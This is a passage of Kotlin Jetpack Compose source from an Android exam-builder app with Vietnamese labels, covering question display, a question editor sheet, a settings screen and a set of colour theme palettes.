                        "Trả lời: (${slot?.answerLines ?: question.draftLinesCount} dòng${slot?.answerKind?.let { ", $it" } ?: ""})",
                        style = MaterialTheme.typography.bodyMedium,
                        color = MaterialTheme.colorScheme.onSurfaceVariant
                    )
                }
                QuestionType.TRUE_FALSE -> Text(
                    "☐ Đúng      ☐ Sai",
                    style = MaterialTheme.typography.bodyMedium,
                    color = MaterialTheme.colorScheme.onSurfaceVariant
                )
                QuestionType.FILL_BLANK -> Text(
                    "Trả lời:  ______________",
                    style = MaterialTheme.typography.bodyMedium,
                    color = MaterialTheme.colorScheme.onSurfaceVariant
                )
            }

            if (expanded && !studentMode) {
                answerLine(question)?.let { answer ->
                    Row(verticalAlignment = Alignment.CenterVertically, horizontalArrangement = Arrangement.spacedBy(6.dp)) {
                        Icon(
                            Icons.Default.CheckCircle,
                            contentDescription = null,
                            tint = MaterialTheme.colorScheme.primary,
                            modifier = Modifier.size(18.dp)
                        )
                        MathText(
                            "Đáp án: $answer",
                            style = MaterialTheme.typography.bodyMedium,
                            fontWeight = FontWeight.SemiBold,
                            color = MaterialTheme.colorScheme.primary
                        )
                    }
                }
                if (!question.explanation.isNullOrBlank()) {
                    ExplanationBlock(question.explanation)
                }
            }

            if (hasSecrets && !studentMode) {
                Text(
                    if (expanded) "Chạm để thu gọn" else "Chạm để xem đáp án & lời giải",
                    style = MaterialTheme.typography.labelSmall,
                    color = MaterialTheme.colorScheme.onSurfaceVariant
                )
            }
        }
    }
}

@Composable
private fun NumberBadge(number: Int) {
    Box(
        Modifier
            .background(MaterialTheme.colorScheme.primary, RoundedCornerShape(8.dp))
            .padding(horizontal = 10.dp, vertical = 4.dp)
    ) {
        Text(
            "Câu $number",
            style = MaterialTheme.typography.labelLarge,
            fontWeight = FontWeight.Bold,
            color = MaterialTheme.colorScheme.onPrimary
        )
    }
}

@Composable
private fun OptionRow(key: String, text: String, highlight: Boolean) {
    val container = if (highlight) MaterialTheme.colorScheme.primaryContainer else Color.Transparent
    val onContainer = if (highlight) MaterialTheme.colorScheme.onPrimaryContainer else MaterialTheme.colorScheme.onSurface
    Row(
        Modifier
            .fillMaxWidth()
            .background(container, RoundedCornerShape(8.dp))
            .padding(horizontal = 8.dp, vertical = 6.dp),
        verticalAlignment = Alignment.Top,
        horizontalArrangement = Arrangement.spacedBy(8.dp)
    ) {
        Box(
            Modifier
                .size(24.dp)
                .border(1.dp, onContainer.copy(alpha = 0.4f), RoundedCornerShape(6.dp)),
            contentAlignment = Alignment.Center
        ) {
            Text(key, style = MaterialTheme.typography.labelMedium, fontWeight = FontWeight.Bold, color = onContainer)
        }
        MathText(
            text.ifBlank { "…" },
            style = MaterialTheme.typography.bodyMedium,
            color = onContainer,
            modifier = Modifier.weight(1f)
        )
        if (highlight) {
            Icon(
                Icons.Default.CheckCircle,
                contentDescription = "Đáp án đúng",
                tint = MaterialTheme.colorScheme.primary,
                modifier = Modifier.size(18.dp)
            )
        }
    }
}

@Composable
private fun ExplanationBlock(explanation: String) {
    Column(
        Modifier
            .fillMaxWidth()
            .background(MaterialTheme.colorScheme.surfaceVariant, RoundedCornerShape(10.dp))
            .padding(12.dp),
        verticalArrangement = Arrangement.spacedBy(3.dp)
    ) {
        Text(
            "Lời giải",
            style = MaterialTheme.typography.labelMedium,
            fontWeight = FontWeight.Bold,
            color = MaterialTheme.colorScheme.secondary
        )
        splitSentences(explanation).forEach { sentence ->
            MathText(
                sentence,
                style = MaterialTheme.typography.bodyMedium,
                color = MaterialTheme.colorScheme.onSurfaceVariant
            )
        }
    }
}

/** The answer to show for a question, or null when there is nothing to reveal. */
private fun answerLine(question: Question): String? = when (question.questionType) {
    QuestionType.TRUE_FALSE -> question.correctAnswer?.let { trueFalseLabel(it) }
    QuestionType.FILL_BLANK -> question.correctAnswer?.takeIf { it.isNotBlank() }
    QuestionType.MCQ -> question.options.firstOrNull { it.isCorrect }?.let { "${it.optionKey}. ${it.optionText}" }
        ?: question.correctAnswer?.takeIf { it.isNotBlank() }
    QuestionType.ESSAY -> null
}

/** One sentence (". " terminated) per line — matches the web preview. */
private fun splitSentences(text: String): List<String> =
    text.split(Regex("(?<=\\.)\\s+(?=\\S)")).map { it.trim() }.filter { it.isNotEmpty() }

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/ui/screens/QuestionEditorSheet.kt

```kotlin
package com.exambuilder.android.ui.screens

import androidx.compose.foundation.layout.Arrangement
import androidx.compose.foundation.layout.Column
import androidx.compose.foundation.layout.ExperimentalLayoutApi
import androidx.compose.foundation.layout.FlowRow
import androidx.compose.foundation.layout.Row
import androidx.compose.foundation.layout.fillMaxWidth
import androidx.compose.foundation.layout.padding
import androidx.compose.foundation.rememberScrollState
import androidx.compose.foundation.verticalScroll
import androidx.compose.material.icons.Icons
import androidx.compose.material.icons.filled.Add
import androidx.compose.material.icons.filled.Close
import androidx.compose.material.icons.filled.Remove
import androidx.compose.material3.Button
import androidx.compose.material3.ExperimentalMaterial3Api
import androidx.compose.material3.FilledTonalIconButton
import androidx.compose.material3.FilterChip
import androidx.compose.material3.Icon
import androidx.compose.material3.IconButton
import androidx.compose.material3.MaterialTheme
import androidx.compose.material3.ModalBottomSheet
import androidx.compose.material3.OutlinedButton
import androidx.compose.material3.OutlinedTextField
import androidx.compose.material3.RadioButton
import androidx.compose.material3.Text
import androidx.compose.material3.TextButton
import androidx.compose.material3.rememberModalBottomSheetState
import androidx.compose.runtime.Composable
import androidx.compose.runtime.getValue
import androidx.compose.runtime.mutableStateOf
import androidx.compose.runtime.remember
import androidx.compose.runtime.setValue
import androidx.compose.ui.Alignment
import androidx.compose.ui.Modifier
import androidx.compose.ui.unit.dp
import com.exambuilder.android.export.vietnameseLabel
import com.exambuilder.android.math.MathConvert
import com.exambuilder.android.model.DifficultyLevel
import com.exambuilder.android.model.Question
import com.exambuilder.android.model.QuestionOption
import com.exambuilder.android.model.QuestionType
import java.util.UUID

/**
 * Full add / edit surface for a single question (content, type, difficulty,
 * options + correct key, true-false / fill answer, essay lines, explanation).
 * Presented as a [ModalBottomSheet] so it works the same on phone and tablet.
 *
 * [initial] == null  -> add mode. Otherwise the question is edited in place
 * (its `id` is preserved). Text is normalised with [MathConvert.normalizeInput]
 * on save so it stays interchangeable with the web client.
 */
@OptIn(ExperimentalMaterial3Api::class, ExperimentalLayoutApi::class)
@Composable
fun QuestionEditorSheet(
    initial: Question?,
    onDismiss: () -> Unit,
    onSave: (Question) -> Unit,
) {
    val sheetState = rememberModalBottomSheetState(skipPartiallyExpanded = true)
    val editing = initial != null

    var type by remember { mutableStateOf(initial?.questionType ?: QuestionType.MCQ) }
    var difficulty by remember { mutableStateOf(initial?.difficultyLevel ?: DifficultyLevel.NB) }
    var content by remember { mutableStateOf(initial?.content ?: "") }
    var explanation by remember { mutableStateOf(initial?.explanation ?: "") }
    var options by remember {
        mutableStateOf(
            initial?.options?.takeIf { it.isNotEmpty() }
                ?: listOf("A", "B", "C", "D").mapIndexed { i, k ->
                    QuestionOption(optionKey = k, optionText = "", isCorrect = i == 0)
                }
        )
    }
    var tfAnswer by remember {
        val fromInitial = initial != null && initial.questionType == QuestionType.TRUE_FALSE && initial.correctAnswer == "Sai"
        mutableStateOf(if (fromInitial) "Sai" else "Dung")
    }
    var fillAnswer by remember {
        val fromInitial = if (initial != null && initial.questionType == QuestionType.FILL_BLANK) initial.correctAnswer.orEmpty() else ""
        mutableStateOf(fromInitial)
    }
    var essayLines by remember { mutableStateOf(initial?.draftLinesCount?.takeIf { it > 0 } ?: 5) }

    ModalBottomSheet(onDismissRequest = onDismiss, sheetState = sheetState) {
        Column(
            Modifier
                .fillMaxWidth()
                .padding(horizontal = 20.dp)
                .padding(bottom = 28.dp)
                .verticalScroll(rememberScrollState()),
            verticalArrangement = Arrangement.spacedBy(14.dp)
        ) {
            Text(
                if (editing) "Sửa câu hỏi" else "Thêm câu hỏi",
                style = MaterialTheme.typography.titleLarge
            )

            LabeledGroup("Loại câu hỏi") {
                FlowRow(horizontalArrangement = Arrangement.spacedBy(8.dp)) {
                    QuestionType.entries.forEach { t ->
                        FilterChip(
                            selected = type == t,
                            onClick = { type = t },
                            label = { Text(t.vietnameseLabel()) }
                        )
                    }
                }
            }

            LabeledGroup("Mức độ") {
                FlowRow(horizontalArrangement = Arrangement.spacedBy(8.dp)) {
                    DifficultyLevel.entries.forEach { level ->
                        FilterChip(
                            selected = difficulty == level,
                            onClick = { difficulty = level },
                            label = { Text(level.label) }
                        )
                    }
                }
            }

            OutlinedTextField(
                value = content,
                onValueChange = { content = it },
                label = { Text("Nội dung câu hỏi") },
                modifier = Modifier.fillMaxWidth(),
                minLines = 2
            )
            Text(
                "Công thức: đặt trong \$...\$ cho LaTeX (\$\\frac{a}{b}\$, \$\\sqrt{x}\$) hoặc gõ thường: x^2, sqrt(16), a/b, >=, <=>",
                style = MaterialTheme.typography.labelSmall,
                color = MaterialTheme.colorScheme.onSurfaceVariant
            )

            when (type) {
                QuestionType.MCQ -> OptionsEditor(options = options, onChange = { options = it })
                QuestionType.TRUE_FALSE -> LabeledGroup("Đáp án đúng") {
                    Row(horizontalArrangement = Arrangement.spacedBy(8.dp)) {
                        FilterChip(selected = tfAnswer == "Dung", onClick = { tfAnswer = "Dung" }, label = { Text("Đúng") })
                        FilterChip(selected = tfAnswer == "Sai", onClick = { tfAnswer = "Sai" }, label = { Text("Sai") })
                    }
                }
                QuestionType.FILL_BLANK -> OutlinedTextField(
                    value = fillAnswer,
                    onValueChange = { fillAnswer = it },
                    label = { Text("Đáp án") },
                    modifier = Modifier.fillMaxWidth(),
                    singleLine = true
                )
                QuestionType.ESSAY -> LabeledGroup("Số dòng kẻ chừa cho học sinh") {
                    Stepper(value = essayLines, onChange = { essayLines = it }, range = 0..30)
                }
            }

            OutlinedTextField(
                value = explanation,
                onValueChange = { explanation = it },
                label = { Text("Lời giải / giải thích (không bắt buộc)") },
                modifier = Modifier.fillMaxWidth(),
                minLines = 2
            )

            Row(horizontalArrangement = Arrangement.spacedBy(10.dp)) {
                OutlinedButton(onClick = onDismiss, modifier = Modifier.weight(1f)) { Text("Huỷ") }
                Button(
                    onClick = {
                        onSave(
                            buildQuestion(
                                base = initial,
                                type = type,
                                difficulty = difficulty,
                                content = content,
                                explanation = explanation,
                                options = options,
                                tfAnswer = tfAnswer,
                                fillAnswer = fillAnswer,
                                essayLines = essayLines
                            )
                        )
                    },
                    enabled = content.isNotBlank(),
                    modifier = Modifier.weight(1f)
                ) { Text(if (editing) "Lưu" else "Thêm") }
            }
        }
    }
}

@Composable
private fun LabeledGroup(label: String, content: @Composable () -> Unit) {
    Column(verticalArrangement = Arrangement.spacedBy(6.dp)) {
        Text(label, style = MaterialTheme.typography.labelLarge, color = MaterialTheme.colorScheme.onSurfaceVariant)
        content()
    }
}

@Composable
private fun OptionsEditor(options: List<QuestionOption>, onChange: (List<QuestionOption>) -> Unit) {
    Column(verticalArrangement = Arrangement.spacedBy(8.dp)) {
        Text(
            "Các lựa chọn — chọn nút tròn ở đáp án đúng",
            style = MaterialTheme.typography.labelLarge,
            color = MaterialTheme.colorScheme.onSurfaceVariant
        )
        options.forEachIndexed { i, opt ->
            Row(
                verticalAlignment = Alignment.CenterVertically,
                horizontalArrangement = Arrangement.spacedBy(2.dp)
            ) {
                RadioButton(
                    selected = opt.isCorrect,
                    onClick = { onChange(options.mapIndexed { j, o -> o.copy(isCorrect = j == i) }) }
                )
                OutlinedTextField(
                    value = opt.optionText,
                    onValueChange = { v -> onChange(options.mapIndexed { j, o -> if (j == i) o.copy(optionText = v) else o }) },
                    label = { Text("Lựa chọn ${('A' + i)}") },
                    modifier = Modifier.weight(1f),
                    singleLine = true
                )
                IconButton(
                    onClick = {
                        val next = options.filterIndexed { j, _ -> j != i }
                            .mapIndexed { j, o -> o.copy(optionKey = ('A' + j).toString()) }
                        onChange(if (next.none { it.isCorrect }) next.mapIndexed { j, o -> o.copy(isCorrect = j == 0) } else next)
                    },
                    enabled = options.size > 2
                ) { Icon(Icons.Default.Close, contentDescription = "Xoá lựa chọn") }
            }
        }
        TextButton(
            onClick = {
                onChange(options + QuestionOption(optionKey = ('A' + options.size).toString(), optionText = "", isCorrect = false))
            },
            enabled = options.size < 6
        ) {
            Icon(Icons.Default.Add, contentDescription = null)
            Text("Thêm lựa chọn", modifier = Modifier.padding(start = 4.dp))
        }
    }
}

@Composable
private fun Stepper(value: Int, onChange: (Int) -> Unit, range: IntRange) {
    Row(verticalAlignment = Alignment.CenterVertically, horizontalArrangement = Arrangement.spacedBy(12.dp)) {
        FilledTonalIconButton(
            onClick = { onChange((value - 1).coerceIn(range.first, range.last)) },
            enabled = value > range.first
        ) { Icon(Icons.Default.Remove, contentDescription = "Bớt một dòng") }
        Text("$value dòng", style = MaterialTheme.typography.titleMedium)
        FilledTonalIconButton(
            onClick = { onChange((value + 1).coerceIn(range.first, range.last)) },
            enabled = value < range.last
        ) { Icon(Icons.Default.Add, contentDescription = "Thêm một dòng") }
    }
}

private fun buildQuestion(
    base: Question?,
    type: QuestionType,
    difficulty: DifficultyLevel,
    content: String,
    explanation: String,
    options: List<QuestionOption>,
    tfAnswer: String,
    fillAnswer: String,
    essayLines: Int,
): Question {
    val id = base?.id ?: UUID.randomUUID().toString()
    val normContent = MathConvert.normalizeInput(content)
    val normExplanation = MathConvert.normalizeInput(explanation).ifBlank { null }

    return (when (type) {
        QuestionType.MCQ -> {
            val relabeled = options.mapIndexed { i, o ->
                o.copy(optionKey = ('A' + i).toString(), optionText = MathConvert.normalizeInput(o.optionText))
            }
            val correctKey = relabeled.firstOrNull { it.isCorrect }?.optionKey
                ?: relabeled.firstOrNull()?.optionKey
            Question(
                id = id, questionType = type, content = normContent, difficultyLevel = difficulty,
                correctAnswer = correctKey, explanation = normExplanation, options = relabeled
            )
        }
        QuestionType.TRUE_FALSE -> Question(
            id = id, questionType = type, content = normContent, difficultyLevel = difficulty,
            correctAnswer = if (tfAnswer == "Sai") "Sai" else "Dung", explanation = normExplanation
        )
        QuestionType.FILL_BLANK -> Question(
            id = id, questionType = type, content = normContent, difficultyLevel = difficulty,
            correctAnswer = MathConvert.normalizeInput(fillAnswer).ifBlank { null }, explanation = normExplanation
        )
        QuestionType.ESSAY -> Question(
            id = id, questionType = type, content = normContent, difficultyLevel = difficulty,
            explanation = normExplanation, draftLinesCount = essayLines.coerceIn(0, 30)
        )
    }).copy(templateSlotId = base?.templateSlotId, points = base?.points)
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/ui/screens/SettingsScreen.kt

```kotlin
package com.exambuilder.android.ui.screens

import androidx.compose.foundation.background
import androidx.compose.foundation.border
import androidx.compose.foundation.clickable
import androidx.compose.foundation.layout.Arrangement
import androidx.compose.foundation.layout.Box
import androidx.compose.foundation.layout.Column
import androidx.compose.foundation.layout.Row
import androidx.compose.foundation.layout.fillMaxSize
import androidx.compose.foundation.layout.fillMaxWidth
import androidx.compose.foundation.layout.height
import androidx.compose.foundation.layout.padding
import androidx.compose.foundation.layout.size
import androidx.compose.foundation.rememberScrollState
import androidx.compose.foundation.shape.CircleShape
import androidx.compose.foundation.shape.RoundedCornerShape
import androidx.compose.foundation.verticalScroll
import androidx.compose.material3.Card
import androidx.compose.material3.FilterChip
import androidx.compose.material3.HorizontalDivider
import androidx.compose.material3.MaterialTheme
import androidx.compose.material3.Text
import androidx.compose.runtime.Composable
import androidx.compose.runtime.getValue
import androidx.compose.runtime.rememberCoroutineScope
import androidx.compose.ui.Alignment
import androidx.compose.ui.Modifier
import androidx.compose.ui.draw.clip
import androidx.compose.ui.text.font.FontWeight
import androidx.compose.ui.unit.dp
import androidx.lifecycle.compose.collectAsStateWithLifecycle
import com.exambuilder.android.data.AppSettings
import com.exambuilder.android.data.AppSettingsStore
import com.exambuilder.android.ui.theme.APP_THEMES
import com.exambuilder.android.ui.theme.AppTheme
import kotlinx.coroutines.launch

private val FONT_STEPS = listOf(0.9f to "Nhỏ", 1.0f to "Vừa", 1.15f to "Lớn", 1.3f to "Rất lớn")

@Composable
fun SettingsScreen(store: AppSettingsStore) {
    val settings by store.settings.collectAsStateWithLifecycle(initialValue = AppSettings())
    val scope = rememberCoroutineScope()

    Column(
        Modifier.fillMaxSize().verticalScroll(rememberScrollState()).padding(20.dp),
        verticalArrangement = Arrangement.spacedBy(18.dp)
    ) {
        Text("Giao diện", style = MaterialTheme.typography.titleLarge)

        Text("Chủ đề màu", style = MaterialTheme.typography.titleMedium)
        Column(verticalArrangement = Arrangement.spacedBy(10.dp)) {
            APP_THEMES.chunked(3).forEach { rowThemes ->
                Row(Modifier.fillMaxWidth(), horizontalArrangement = Arrangement.spacedBy(10.dp)) {
                    rowThemes.forEach { t ->
                        Box(Modifier.weight(1f)) {
                            ThemeCard(
                                theme = t,
                                selected = t.id == settings.themeId,
                                onClick = { scope.launch { store.setThemeId(t.id) } }
                            )
                        }
                    }
                    repeat(3 - rowThemes.size) { Box(Modifier.weight(1f)) {} }
                }
            }
        }

        HorizontalDivider()

        Text("Cỡ chữ", style = MaterialTheme.typography.titleMedium)
        Row(horizontalArrangement = Arrangement.spacedBy(8.dp)) {
            FONT_STEPS.forEach { (scale, label) ->
                FilterChip(
                    selected = kotlin.math.abs(settings.fontScale - scale) < 0.001f,
                    onClick = { scope.launch { store.setFontScale(scale) } },
                    label = { Text(label) }
                )
            }
        }

        Card(Modifier.fillMaxWidth()) {
            Column(Modifier.padding(14.dp), verticalArrangement = Arrangement.spacedBy(4.dp)) {
                Text("Xem thử", style = MaterialTheme.typography.labelMedium, color = MaterialTheme.colorScheme.onSurfaceVariant)
                Text("Câu 1: Kết quả của phép tính (-5) + 3 là bao nhiêu?", fontWeight = FontWeight.Medium)
                Text(
                    "Lời giải: (-5) + 3 = -2, vì |-5| > |3| nên kết quả mang dấu âm.",
                    style = MaterialTheme.typography.bodyMedium, color = MaterialTheme.colorScheme.secondary
                )
            }
        }
    }
}

@Composable
private fun ThemeCard(theme: AppTheme, selected: Boolean, onClick: () -> Unit) {
    Column(
        Modifier
            .clip(RoundedCornerShape(10.dp))
            .border(
                width = if (selected) 2.dp else 1.dp,
                color = if (selected) MaterialTheme.colorScheme.primary else MaterialTheme.colorScheme.outlineVariant,
                shape = RoundedCornerShape(10.dp)
            )
            .clickable(onClick = onClick)
            .padding(5.dp),
        verticalArrangement = Arrangement.spacedBy(4.dp),
        horizontalAlignment = Alignment.CenterHorizontally
    ) {
        Box(
            Modifier
                .fillMaxWidth()
                .height(38.dp)
                .clip(RoundedCornerShape(6.dp))
                .background(theme.previewBg)
        ) {
            Box(Modifier.fillMaxWidth().height(11.dp).background(theme.previewBar))
            Box(
                Modifier.align(Alignment.BottomEnd).padding(5.dp).size(11.dp)
                    .clip(CircleShape).background(theme.previewDot)
            )
        }
        Text(
            theme.label + if (theme.dark) " 🌙" else "",
            style = MaterialTheme.typography.labelMedium,
            fontWeight = if (selected) FontWeight.Bold else FontWeight.Normal
        )
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/ui/theme/Color.kt

```kotlin
package com.exambuilder.android.ui.theme

import androidx.compose.ui.graphics.Color

val Primary = Color(0xFF2563EB)
val PrimaryDark = Color(0xFF1D4ED8)
val Secondary = Color(0xFF16A34A)
val Background = Color(0xFFF8FAFC)
val Surface = Color(0xFFFFFFFF)
val OnSurfaceMuted = Color(0xFF64748B)
val Error = Color(0xFFDC2626)

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/ui/theme/Palettes.kt

```kotlin
package com.exambuilder.android.ui.theme

import androidx.compose.material3.ColorScheme
import androidx.compose.material3.darkColorScheme
import androidx.compose.material3.lightColorScheme
import androidx.compose.ui.graphics.Color

/**
 * 18 chủ đề màu, chắt lọc từ resources/image/theme/ (Cold / Ocean / Summer /
 * Fall / Winter là chủ đề sáng · Midnight / Pine là chủ đề tối). Đồng bộ hex
 * với frontend/style.css. Mỗi chủ đề là một [ColorScheme] hoàn chỉnh — KHÔNG
 * có "công tắc chế độ tối" riêng nữa.
 */
data class AppTheme(
    val id: String,
    val label: String,
    val dark: Boolean,
    val previewBg: Color,
    val previewBar: Color,
    val previewDot: Color,
    val scheme: ColorScheme
)

private fun c(hex: Long) = Color(hex or 0xFF000000)

val APP_THEMES: List<AppTheme> = listOf(
    AppTheme(
        id = "cold", label = "Xanh lạnh", dark = false,
        previewBg = c(0xE9F2FB), previewBar = c(0x1976D2), previewDot = c(0x0D47A1),
        scheme = lightColorScheme(
            primary = c(0x1976D2), onPrimary = Color.White,
            primaryContainer = c(0xE3F2FD), onPrimaryContainer = c(0x0D47A1),
            secondary = c(0x0F766E), onSecondary = Color.White,
            background = c(0xE9F2FB), onBackground = c(0x13273F),
            surface = c(0xFFFFFF), onSurface = c(0x13273F),
            surfaceVariant = c(0xF3F8FD), onSurfaceVariant = c(0x4C6480),
            outline = c(0x90AAC7), outlineVariant = c(0xCDDFF1), error = c(0xDC2626)
        )
    ),
    AppTheme(
        id = "ocean", label = "Biển", dark = false,
        previewBg = c(0xF2EFE7), previewBar = c(0x33689F), previewDot = c(0x66A3BF),
        scheme = lightColorScheme(
            primary = c(0x33689F), onPrimary = Color.White,
            primaryContainer = c(0xDDE9E6), onPrimaryContainer = c(0x274E78),
            secondary = c(0x5A7D74), onSecondary = Color.White,
            background = c(0xF2EFE7), onBackground = c(0x23303A),
            surface = c(0xFBFAF5), onSurface = c(0x23303A),
            surfaceVariant = c(0xE9E4D6), onSurfaceVariant = c(0x52646F),
            outline = c(0x9AA79F), outlineVariant = c(0xDDD5C4), error = c(0xB3261E)
        )
    ),
    AppTheme(
        id = "meadow", label = "Đồng cỏ", dark = false,
        previewBg = c(0xF3F8E9), previewBar = c(0x3F7D1C), previewDot = c(0x8ECA3C),
        scheme = lightColorScheme(
            primary = c(0x3F7D1C), onPrimary = Color.White,
            primaryContainer = c(0xE7F2D4), onPrimaryContainer = c(0x245F22),
            secondary = c(0x276F27), onSecondary = Color.White,
            background = c(0xF3F8E9), onBackground = c(0x20301A),
            surface = c(0xFFFFFF), onSurface = c(0x20301A),
            surfaceVariant = c(0xEEF4E0), onSurfaceVariant = c(0x4F6242),
            outline = c(0x9DB584), outlineVariant = c(0xD7E5BF), error = c(0xB3261E)
        )
    ),
    AppTheme(
        id = "blossom", label = "Oải hương", dark = false,
        previewBg = c(0xFBF5E6), previewBar = c(0x7A5C8F), previewDot = c(0xB0CDE6),
        scheme = lightColorScheme(
            primary = c(0x7A5C8F), onPrimary = Color.White,
            primaryContainer = c(0xEBE4F0), onPrimaryContainer = c(0x5F4571),
            secondary = c(0x4A7194), onSecondary = Color.White,
            background = c(0xFBF5E6), onBackground = c(0x33292F),
            surface = c(0xFFFCF3), onSurface = c(0x33292F),
            surfaceVariant = c(0xF2E9D4), onSurfaceVariant = c(0x6B5A63),
            outline = c(0xB3A598), outlineVariant = c(0xE6DBC7), error = c(0xB3261E)
        )
    ),
    AppTheme(
        id = "sorbet", label = "Kem trái cây", dark = false,
        previewBg = c(0xFEF2EE), previewBar = c(0xC0453F), previewDot = c(0xBBF1D2),
        scheme = lightColorScheme(
            primary = c(0xC0453F), onPrimary = Color.White,
            primaryContainer = c(0xFBE0D7), onPrimaryContainer = c(0x98342F),
            secondary = c(0x1F7D55), onSecondary = Color.White,
            background = c(0xFEF2EE), onBackground = c(0x3A2622),
            surface = c(0xFFFBF8), onSurface = c(0x3A2622),
            surfaceVariant = c(0xFCE6DD), onSurfaceVariant = c(0x755751),
            outline = c(0xC9A99E), outlineVariant = c(0xF3DDD2), error = c(0xB3261E)
        )
    ),
    AppTheme(
        id = "daylight", label = "Ban ngày", dark = false,
        previewBg = c(0xFEFAEE), previewBar = c(0x3F5FC9), previewDot = c(0xAAC4F5),
        scheme = lightColorScheme(
            primary = c(0x3F5FC9), onPrimary = Color.White,
            primaryContainer = c(0xE4EBFB), onPrimaryContainer = c(0x2F49A0),
            secondary = c(0x4A7194), onSecondary = Color.White,
            background = c(0xFEFAEE), onBackground = c(0x2C2B1F),
            surface = c(0xFFFEF9), onSurface = c(0x2C2B1F),
            surfaceVariant = c(0xFAF1D6), onSurfaceVariant = c(0x615E46),
            outline = c(0xB7AC86), outlineVariant = c(0xECE0BE), error = c(0xB3261E)
        )
    ),
    AppTheme(
        id = "summer", label = "Hè", dark = false,
        previewBg = c(0xFDF3E2), previewBar = c(0xA8562B), previewDot = c(0x6B7A45),
        scheme = lightColorScheme(
            primary = c(0xA8562B), onPrimary = Color.White,
            primaryContainer = c(0xF3E5CF), onPrimaryContainer = c(0x7A3D1C),
            secondary = c(0x6B7A45), onSecondary = Color.White,
            background = c(0xFDF3E2), onBackground = c(0x33291C),
            surface = c(0xFFFAF0), onSurface = c(0x33291C),
            surfaceVariant = c(0xF6E9D1), onSurfaceVariant = c(0x6E5C44),
            outline = c(0xB09A7A), outlineVariant = c(0xE9D6B9), error = c(0xB3261E)
        )
    ),
    AppTheme(
        id = "fall", label = "Thu", dark = false,
        previewBg = c(0xFCF3E6), previewBar = c(0xAF5F2C), previewDot = c(0x3F7C8C),
        scheme = lightColorScheme(
            primary = c(0xAF5F2C), onPrimary = Color.White,
            primaryContainer = c(0xF6E5D0), onPrimaryContainer = c(0x843F16),
            secondary = c(0x3F7C8C), onSecondary = Color.White,
            background = c(0xFCF3E6), onBackground = c(0x302518),
            surface = c(0xFFFDF8), onSurface = c(0x302518),
            surfaceVariant = c(0xF4EAD8), onSurfaceVariant = c(0x6A5A48),
            outline = c(0xA99C88), outlineVariant = c(0xE8D6BD), error = c(0xB3261E)
        )
    ),
    AppTheme(
        id = "winter", label = "Đông", dark = false,
        previewBg = c(0xF0F0EC), previewBar = c(0x6B7259), previewDot = c(0xA3A396),
        scheme = lightColorScheme(
            primary = c(0x6B7259), onPrimary = Color.White,
            primaryContainer = c(0xE4E4DC), onPrimaryContainer = c(0x464B3A),
            secondary = c(0x4B6B57), onSecondary = Color.White,
            background = c(0xF0F0EC), onBackground = c(0x2B2B26),
            surface = c(0xFFFFFF), onSurface = c(0x2B2B26),
            surfaceVariant = c(0xE8E8E2), onSurfaceVariant = c(0x5F5F55),
            outline = c(0xA3A396), outlineVariant = c(0xD6D6CE), error = c(0xB3261E)
        )
    ),
    AppTheme(
        id = "midnight", label = "Xanh đêm", dark = true,
        previewBg = c(0x0A1230), previewBar = c(0x7F9CFF), previewDot = c(0xABD2FA),
        scheme = darkColorScheme(
            primary = c(0x7F9CFF), onPrimary = c(0x0A1230),
            primaryContainer = c(0x1C2A5E), onPrimaryContainer = c(0xABD2FA),
            secondary = c(0x8BBB92), onSecondary = c(0x0A1230),
            background = c(0x0A1230), onBackground = c(0xE4E9F7),
            surface = c(0x121A3F), onSurface = c(0xE4E9F7),
            surfaceVariant = c(0x1A2350), onSurfaceVariant = c(0xA1B2D6),
            outline = c(0x4A5A8F), outlineVariant = c(0x2C3A6B), error = c(0xF87171)
        )
    ),
    AppTheme(
        id = "pine", label = "Rừng đêm", dark = true,
        previewBg = c(0x0A2226), previewBar = c(0x5CC596), previewDot = c(0x8BBB92),
        scheme = darkColorScheme(
            primary = c(0x5CC596), onPrimary = c(0x072022),
            primaryContainer = c(0x123C3B), onPrimaryContainer = c(0x8BBB92),
            secondary = c(0x8BBB92), onSecondary = c(0x072022),
            background = c(0x0A2226), onBackground = c(0xE0EFE4),
            surface = c(0x0F2D31), onSurface = c(0xE0EFE4),
            surfaceVariant = c(0x153A3D), onSurfaceVariant = c(0x95B3A5),
            outline = c(0x446B64), outlineVariant = c(0x28504F), error = c(0xF87171)
        )
    ),
    AppTheme(
        id = "grape", label = "Nho", dark = false,
        previewBg = c(0xEFE7FB), previewBar = c(0x6A3EA8), previewDot = c(0x9564DD),
        scheme = lightColorScheme(
            primary = c(0x6A3EA8), onPrimary = Color.White,
            primaryContainer = c(0xECE2F7), onPrimaryContainer = c(0x4B287D),
            secondary = c(0x6A3EA8), onSecondary = Color.White,
            background = c(0xF3EEFB), onBackground = c(0x241436),
            surface = c(0xFFFFFF), onSurface = c(0x241436),
            surfaceVariant = c(0xEFE8F8), onSurfaceVariant = c(0x574465),
            outline = c(0xA48FC2), outlineVariant = c(0xDDD0EF), error = c(0xB3261E)
        )
    ),
    AppTheme(
        id = "plum", label = "Mận", dark = false,
        previewBg = c(0xF8E2EC), previewBar = c(0x9C3568), previewDot = c(0xBD5579),
        scheme = lightColorScheme(
            primary = c(0x9C3568), onPrimary = Color.White,
            primaryContainer = c(0xF6DEE9), onPrimaryContainer = c(0x78264F),
            secondary = c(0x9C3568), onSecondary = Color.White,
            background = c(0xFCEEF4), onBackground = c(0x371C2B),
            surface = c(0xFFFAFC), onSurface = c(0x371C2B),
            surfaceVariant = c(0xF9E0EC), onSurfaceVariant = c(0x744F60),
            outline = c(0xCC9BB1), outlineVariant = c(0xF1D3E0), error = c(0xB3261E)
        )
    ),
    AppTheme(
        id = "mocha", label = "Cà phê", dark = false,
        previewBg = c(0xEFE7DF), previewBar = c(0x7C5741), previewDot = c(0xAB886D),
        scheme = lightColorScheme(
            primary = c(0x7C5741), onPrimary = Color.White,
            primaryContainer = c(0xEFE5DD), onPrimaryContainer = c(0x5B3D2B),
            secondary = c(0x7C5741), onSecondary = Color.White,
            background = c(0xF4EFEC), onBackground = c(0x2D221A),
            surface = c(0xFFFDFB), onSurface = c(0x2D221A),
            surfaceVariant = c(0xECE2DA), onSurfaceVariant = c(0x6A584A),
            outline = c(0xAB9683), outlineVariant = c(0xDED1C6), error = c(0xB3261E)
        )
    ),
    AppTheme(
        id = "quartz", label = "Thạch anh", dark = false,
        previewBg = c(0xF9E4EC), previewBar = c(0x9C5A7C), previewDot = c(0xC5B3D3),
